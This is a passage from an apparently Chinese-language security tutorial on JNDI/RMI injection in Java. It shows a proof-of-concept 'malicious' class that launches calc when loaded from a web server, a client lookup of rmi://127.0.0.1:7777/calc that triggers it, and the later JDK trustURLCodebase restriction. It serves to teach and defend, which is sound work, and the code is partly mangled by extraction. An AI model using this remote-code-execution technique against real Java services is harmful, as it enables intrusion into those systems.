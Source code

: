   
恶意代码（test.class），将其编译好放到可访问的web服务器。  

```
import java.lang.Runtime;


publicclasstest{
publictest()throws Exception{
        Runtime.getRuntime().exec(&#34;calc&#34;);
    }
}
```

  
当客户端通过  
InitialContext().lookup("rmi:// 127.0.0.1  
:7777/calc")   
获取远程对象时，会执行我们的恶意代码。  

```
package demo;


import javax.naming.InitialContext;


publicclassJNDI_Test{
    publicstaticvoidmain(String[] args)throws Exception{
        new InitialContext().lookup(&#34;rmi://127.0.0.1:7777/calc&#34;);
    }
}
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSKxRBKOEibsGsRZpeBsrcdwVXd12uHKpcgDib53EPzdBxzuQHibooCfficiaDTJCmVYGoUmRzHVB8Yr7w/640?wx_fmt=png "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSKxRBKOEibsGsRZpeBsrcdwVXd12uHKpcgDib53EPzdBxzuQHibooCfficiaDTJCmVYGoUmRzHVB8Yr7w/640?wx_fmt=png "")  
  
对于这种利用方式Java在其JDK 6u132、7u122、8u113中进行了限制，  

```
com.sun.jndi.rmi.object.trustURLCodebase默认值变为false


static {
    PrivilegedAction var0 = () -> {
        return System.getProperty(&#34;com.sun.jndi.rmi.object.trustURLCodebase&#34;, &#34;false&#34;);
    };
    String var1 = (String)AccessController.doPrivileged(var0);
    trustURLCodebase = &#34;true&#34;.equalsIgnoreCase(var1);
}
```

  